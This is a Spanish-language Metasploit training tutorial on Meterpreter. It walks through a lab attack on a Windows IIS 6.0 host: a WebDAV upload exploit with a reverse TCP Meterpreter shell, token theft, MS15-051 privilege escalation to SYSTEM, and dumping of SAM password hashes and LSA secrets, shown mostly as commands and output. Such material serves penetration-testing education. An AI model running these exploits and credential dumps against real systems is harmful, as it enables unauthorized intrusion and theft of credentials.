

# Meterpreter

El Payload de Meterpreter es un tipo específico de Payload multifacético y extensible que utiliza inyección de DLL para asegurar que la conexión con el host víctima sea estable y difícil de detectar mediante chequeos simples. Además, puede configurarse para ser persistente a través de reinicios o cambios en el sistema. Meterpreter reside completamente en la memoria del host remoto y no deja rastros en el disco duro, lo que lo hace difícil de detectar con técnicas forenses convencionales.

Se le llama el "cuchillo suizo" de la pentesting, y por una buena razón. El propósito de Meterpreter es mejorar específicamente nuestros procedimientos de post-explotación, ofreciéndonos un conjunto seleccionado de herramientas relevantes para una enumeración más sencilla del host objetivo desde dentro. Puede ayudarnos a encontrar diversas técnicas de escalada de privilegios, técnicas de evasión de antivirus, investigación de vulnerabilidades adicionales, proporcionar acceso persistente, hacer pivoteo, etc.

Para una lectura interesante, consulta este post sobre Payloads stageless de Meterpreter y este post sobre la modificación de plantillas de Metasploit para evasión. Estos temas están fuera del alcance de este módulo, pero debemos estar al tanto de estas posibilidades.

## Ejecución de Meterpreter

Para ejecutar Meterpreter, solo necesitamos seleccionar cualquier versión de él de la salida de `show payloads`, teniendo en cuenta el tipo de conexión y el sistema operativo al que estamos atacando.

Cuando se completa el exploit, ocurren los siguientes eventos:

1. El objetivo ejecuta el _stager_ inicial. Esto suele ser un bind, reverse, findtag, passivex, etc.
2. El _stager_ carga la DLL precedida por Reflective. El stub Reflective maneja la carga/inyección de la DLL.
3. El núcleo de Meterpreter se inicializa, establece un enlace cifrado por AES a través del socket y envía un GET. Metasploit recibe este GET y configura el cliente.
4. Por último, Meterpreter carga extensiones. Siempre cargará `stdapi` y `priv` si el módulo otorga derechos administrativos. Todas estas extensiones se cargan a través de cifrado AES.

Cada vez que se envía y se ejecuta el Payload de Meterpreter en el sistema objetivo, recibimos un shell de Meterpreter. Podemos emitir inmediatamente el comando `help` para ver de qué es capaz el shell de Meterpreter.

### MSF - Comandos de Meterpreter

#### Meterpreter

```plaintext
meterpreter > help
```

#### Comandos Principales

| Comando                    | Descripción                                                               |
| -------------------------- | ------------------------------------------------------------------------- |
| ?                          | Menú de ayuda                                                             |
| background                 | Envía la sesión actual a segundo plano                                    |
| bg                         | Alias para background                                                     |
| bgkill                     | Mata un script de Meterpreter en segundo plano                            |
| bglist                     | Lista los scripts en segundo plano                                        |
| bgrun                      | Ejecuta un script de Meterpreter como un hilo en segundo plano            |
| channel                    | Muestra información o controla canales activos                            |
| close                      | Cierra un canal                                                           |
| disable\_unicode\_encoding | Desactiva la codificación de cadenas Unicode                              |
| enable\_unicode\_encoding  | Activa la codificación de cadenas Unicode                                 |
| exit                       | Termina la sesión de Meterpreter                                          |
| get\_timeouts              | Obtiene los valores de tiempo de espera de la sesión                      |
| guid                       | Obtiene el GUID de la sesión                                              |
| help                       | Menú de ayuda                                                             |
| info                       | Muestra información sobre un módulo Post                                  |
| irb                        | Abre un shell interactivo de Ruby en la sesión actual                     |
| load                       | Carga una o más extensiones de Meterpreter                                |
| machine\_id                | Obtiene el ID de MSF de la máquina conectada a la sesión                  |
| migrate                    | Migra el servidor a otro proceso                                          |
| pivot                      | Gestiona oyentes de pivote                                                |
| pry                        | Abre el depurador Pry en la sesión actual                                 |
| quit                       | Termina la sesión de Meterpreter                                          |
| read                       | Lee datos de un canal                                                     |
| resource                   | Ejecuta los comandos almacenados en un archivo                            |
| run                        | Ejecuta un script de Meterpreter o módulo Post                            |
| secure                     | (Re)Negocia la encriptación de paquetes TLV en la sesión                  |
| sessions                   | Cambia rápidamente a otra sesión                                          |
| set\_timeouts              | Establece los valores de tiempo de espera de la sesión                    |
| sleep                      | Obliga a Meterpreter a permanecer en silencio, luego restablece la sesión |
| transport                  | Cambia el mecanismo de transporte actual                                  |
| use                        | Alias obsoleto para "load"                                                |
| uuid                       | Obtiene el UUID para la sesión actual                                     |
| write                      | Escribe datos en un canal                                                 |

Algunos de estos comandos también están disponibles en la hoja de trucos del módulo para referencia.

#### Conceptos Clave sobre Meterpreter

La idea principal que necesitamos entender sobre Meterpreter es que es tan bueno como obtener un shell directo en el sistema operativo objetivo, pero con más funcionalidad. Los desarrolladores de Meterpreter establecieron claros objetivos de diseño para que el proyecto pudiera crecer en usabilidad en el futuro. Meterpreter necesita ser:

* **Sigiloso**
* **Poderoso**
* **Extensible**

### **Sigiloso**

Meterpreter, cuando se lanza y llega al objetivo, reside completamente en la memoria y no escribe nada en el disco. No se crean nuevos procesos, ya que Meterpreter se inyecta en un proceso comprometido. Además, puede realizar migraciones de procesos de un proceso en ejecución a otro.

Con la ahora actualizada `msfconsole-v6`, todas las comunicaciones del payload de Meterpreter entre el host objetivo y nosotros están cifradas usando AES para asegurar la confidencialidad e integridad de las comunicaciones de datos.

Todo esto proporciona pruebas forenses limitadas y también poco impacto en la máquina víctima.

### **Poderoso**

El uso de un sistema de comunicación canalizado entre el host objetivo y el atacante demuestra ser muy útil. Podemos notar esto de primera mano cuando inmediatamente generamos un shell del sistema operativo dentro de nuestro escenario de Meterpreter abriendo un canal dedicado para ello. Esto también permite el uso de tráfico cifrado por AES.

### **Extensible**

Las características de Meterpreter pueden aumentarse constantemente en tiempo de ejecución y cargarse a través de la red. Su estructura modular también permite agregar nueva funcionalidad sin necesidad de recompilarlo.

## Usando Meterpreter

Ya hemos explorado los conceptos básicos de Meterpreter en la sección de Payloads. Ahora, observaremos las verdaderas fortalezas del shell de Meterpreter y cómo puede mejorar la efectividad de la evaluación y ahorrar tiempo durante un compromiso. Comenzaremos realizando un escaneo básico contra un objetivo conocido. Haremos esto a la carta, haciendo todo desde dentro de `msfconsole` para beneficiarnos del seguimiento de datos en nuestro objetivo.

### MSF - Escaneando el Objetivo

```plaintext
msf6 > db_nmap -sV -p- -T5 -A 10.10.10.15
```

```plaintext
[*] Nmap: Iniciando Nmap 7.80 ( https://nmap.org ) a las 2020-09-03 09:55 UTC
[*] Nmap: Informe de escaneo de Nmap para 10.10.10.15
[*] Nmap: El host está activo (latencia de 0.021s).
[*] Nmap: No mostrado: 65534 puertos filtrados
[*] Nmap: PUERTO   ESTADO   SERVICIO     VERSIÓN
[*] Nmap: 80/tcp   abierto   http      Microsoft IIS httpd 6.0
[*] Nmap: | http-methods:
[*] Nmap: |_  Métodos potencialmente arriesgados: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
[*] Nmap: |_http-server-header: Microsoft-IIS/6.0
[*] Nmap: |_http-title: En construcción
[*] Nmap: | http-webdav-scan:
[*] Nmap: |   Opciones Públicas: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
[*] Nmap: |   Tipo de WebDAV: Desconocido
[*] Nmap: |   Métodos Permitidos: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
[*] Nmap: |   Fecha del Servidor: Thu, 03 Sep 2020 09:56:46 GMT
[*] Nmap: |_  Tipo de Servidor: Microsoft-IIS/6.0
[*] Nmap: Detección de servicios realizada. Por favor informa cualquier resultado incorrecto en https://nmap.org/submit/.
[*] Nmap: Escaneo de Nmap completado: 1 dirección IP (1 host activo) escaneado en 59.74 segundos
```

```plaintext
msf6 > hosts

Hosts
=====

address      mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------      ---  ----  -------  ---------  -----  -------  ----  --------
10.10.10.15             Desconocido                    dispositivo    
```

```plaintext
msf6 > services

Services
========

host         port  proto  name  state  info
----         ----  -----  ----  -----  ----
10.10.10.15  80    tcp    http  abierto   Microsoft IIS httpd 6.0
```

A continuación, buscamos información sobre los servicios que se ejecutan en esta máquina. Específicamente, queremos explorar el puerto 80 y qué tipo de servicio web se está alojando allí.

<figure><figcaption></figcaption></figure>

### MSF - Búsqueda de Exploits

```plaintext
msf6 > search iis_webdav_upload_asp
```

```yaml
   #  Nombre                                       Fecha de Divulgación  Rango      Comprobación  Descripción
   -  ----                                       ---------------------  ----       -----------  -----------
   0  exploit/windows/iis/iis_webdav_upload_asp  2004-12-31             excelente  No           Ejecución de Código por Acceso de Escritura de Microsoft IIS WebDAV
```

```plaintext
msf6 > use 0
```

```plaintext
[*] No se ha configurado ningún payload, utilizando por defecto windows/meterpreter/reverse_tcp
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options
```

```less
   Nombre          Configuración Actual        Requerido  Descripción
   ----            -------------------------   --------  -----------
   HttpPassword                           no        La contraseña HTTP para especificar autenticación
   HttpUsername                           no        El nombre de usuario HTTP para especificar autenticación
   METHOD        move                     sí        Mueve o copia el archivo en el sistema remoto de .txt -> .asp (Aceptado: move, copy)
   PATH          /metasploit%RAND%.asp   sí        La ruta para intentar subir
   Proxies                              no        Una cadena proxy en el formato tipo:host:port[,tipo:host:port][...]
   RHOSTS                               sí        El/los host(s) objetivo(s), rango identificador CIDR, o archivo de hosts con sintaxis 'file:<path>'
   RPORT         80                       sí        El puerto de destino (TCP)
   SSL           false                    no        Negociar SSL/TLS para conexiones salientes
   VHOST                                no        Host virtual del servidor HTTP
```

```java
   Nombre      Configuración Actual  Requerido  Descripción
   ----        --------------------  --------   -----------
   EXITFUNC    process               sí        Técnica de salida (Aceptado: '', seh, thread, process, none)
   LHOST       10.10.239.181        sí        La dirección de escucha (se puede especificar una interfaz)
   LPORT       4444                 sí        El puerto de escucha
```

```lua
   Id  Nombre
   --  ----
   0   Automático
```

Procedemos a establecer los parámetros necesarios. Por ahora, estos serían `LHOST` y `RHOST`, ya que todo lo demás en el objetivo parece estar en la configuración predeterminada.

### MSF - Configuración del Exploit y Payload

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15
```

```plaintext
RHOST => 10.10.10.15
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0
```

```plaintext
LHOST => tun0
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run
```

```less
[*] Controlador TCP inverso iniciado en 10.10.14.26:4444 
[*] Comprobando /metasploit28857905.asp
[*] Subiendo 612435 bytes a /metasploit28857905.txt...
[*] Moviendo /metasploit28857905.txt a /metasploit28857905.asp...
[*] Ejecutando /metasploit28857905.asp...
[*] Enviando stage (175174 bytes) a 10.10.10.15
[*] Eliminando /metasploit28857905.asp (esto no siempre funciona)...
[!] Fallo en la eliminación de /metasploit28857905.asp [403 Forbidden]
[*] Sesión de Meterpreter 1 abierta (10.10.14.26:4444 -> 10.10.10.15:1030) a las 2020-09-03 10:10:21 +0000
```

```plaintext
meterpreter > 
```

Tenemos nuestro shell de Meterpreter. Sin embargo, echemos un vistazo más de cerca a la salida anterior. Podemos ver que hay un archivo .asp llamado `metasploit28857905` que existe en el sistema objetivo en este momento. Una vez que se obtiene el shell de Meterpreter, como se mencionó antes, residirá en la memoria. Por lo tanto, el archivo no es necesario y se intentó eliminar mediante `msfconsole`, que falló debido a permisos de acceso. Dejar rastros como estos no es beneficioso para el atacante y crea una gran responsabilidad.

Desde la perspectiva del administrador del sistema, encontrar archivos que coincidan con este tipo de nombre o ligeras variaciones de él puede ser beneficioso para detener un ataque en medio de su ejecución. Dirigir coincidencias de regex contra nombres de archivos o firmas como las anteriores no permitirá ni siquiera que un atacante genere un shell de Meterpreter antes de ser neutralizado por las medidas de seguridad configuradas correctamente.

Procedemos con nuestros exploits. Al intentar ver qué usuario estamos ejecutando, recibimos un mensaje de acceso denegado. Debemos intentar migrar nuestro proceso a un usuario con más privilegios.

### MSF - Migración de Meterpreter

```plaintext
meterpreter > getuid
```

```yaml
[-] 1055: Operación fallida: Acceso denegado.
```

```plaintext
meterpreter > ps
```

```yaml
 PID   PPID  Nombre               Arch  Sesión  Usuario                          Ruta
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                 
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    

...

 1712  396   alg.exe                                                          
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    
```

```plaintext
meterpreter > steal_token 1836
```

```yaml
yamlCopiar códigoToken robado con nombre de usuario: NT AUTHORITY\NETWORK SERVICE
```

```plaintext
meterpreter > getuid
```

```css
Usuario del servidor: NT AUTHORITY\NETWORK SERVICE
```

Ahora que hemos establecido al menos un nivel de privilegio en el sistema, es hora de escalar ese privilegio. Así que, miramos alrededor en busca de algo interesante, y en la ubicación `C:\Inetpub\` encontramos una carpeta interesante llamada `AdminScripts`. Sin embargo, desafortunadamente, no tenemos permiso para leer lo que hay dentro.

### MSF - Interacción con el Objetivo

```plaintext
c:\Inetpub>dir
```

```mathematica
dir
 Volume en la unidad C no tiene etiqueta.
 Número de serie de volumen es 246C-D7FE

 Directorio de c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 Archivo(s)              0 bytes
               4 Directorio(s)  18,125,160,448 bytes libres
```

```plaintext
c:\Inetpub>cd AdminScripts
```

```bash
cd AdminScripts
Acceso denegado.
```

Podemos decidir fácilmente ejecutar el módulo de sugerencia de exploits locales, adjuntándolo a la sesión activa de Meterpreter. Para hacerlo, enviamos la sesión de Meterpreter actual al segundo plano, buscamos el módulo que necesitamos y configuramos la opción `SESSION` al número de índice para la sesión de Meterpreter, vinculando el módulo a ella.

### MSF - Manejo de Sesiones

```plaintext
meterpreter > bg
```

```css
¿Sesión de fondo 1? [y/N]  y
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester
```

```bash
#  Nombre                                      Fecha de Divulgación  Rango    Comprobación  Descripción
   -  ----                                       ---------------------  ----     -----------  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Sugeridor de Exploits Locales Multi Recon
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
```

```plaintext
msf6 post(multi/recon/local_exploit_suggester) > show options
```

```lua
   Nombre             Configuración Actual  Requerido  Descripción
   ----               --------------------  --------  -----------
   SESSION                               sí       La sesión para ejecutar este módulo
   SHOWDESCRIPTION  false                 sí       Muestra una descripción detallada de los exploits disponibles
```

```plaintext
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
```

```makefile
SESSION => 1
```

```plaintext
msf6 post/multi/recon/local_exploit_suggester) > run
```

```less
[*] 10.10.10.15 - Recopilando exploits locales para x86/windows...
[*] 10.10.10.15 - Se están probando 34 comprobaciones de exploit...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: El servicio está en ejecución, pero no se pudo validar.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: El objetivo parece ser vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: El objetivo parece ser vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: El objetivo parece ser vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: El servicio está en ejecución, pero no se pudo validar.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: El objetivo parece ser vulnerable.
[*] Ejecución del módulo de post completada
```

Ejecutar el módulo de recon nos presenta con una multitud de opciones. Al revisar cada uno por separado, llegamos a la entrada `ms15_051_client_copy_image`, que resulta ser exitosa. Este exploit nos coloca directamente en un shell de root, dándonos el control total sobre el sistema objetivo.

### MSF - Escalación de Privilegios

```plaintext
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images
```

```plaintext
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > show options
```

```bash
   Nombre     Configuración Actual  Requerido  Descripción
   ----       --------------------  --------  -----------
   SESSION                   yes       La sesión para ejecutar este módulo.
```

```bash
   Nombre      Configuración Actual  Requerido  Descripción
   ----        --------------------  --------  -----------
   EXITFUNC  thread           yes       Técnica de salida (Aceptado: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       La dirección de escucha (se puede especificar una interfaz)
   LPORT     4444             yes       El puerto de escucha
```

```lua
   Id  Nombre
   --  ----
   0   Windows x86
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1
```

```makefile
session => 1
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0
```

```makefile
LHOST => tun0
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > run
```

```less
[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000
```

```plaintext
meterpreter > getuid
```

```arduino
Server username: NT AUTHORITY\SYSTEM
```

Desde aquí, podemos proceder a usar la gran cantidad de funcionalidades de Meterpreter. Por ejemplo, extraer hashes, suplantar cualquier proceso que deseemos, entre otros.

### MSF - Extracción de Hashes

```plaintext
meterpreter > hashdump
```

```ruby
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

```plaintext
meterpreter > lsa_dump_sam
```

```yaml
[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c
```

### MSF - Volcado de Secretos LSA

```plaintext
meterpreter > lsa_dump_secrets
```

```yaml
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 
```
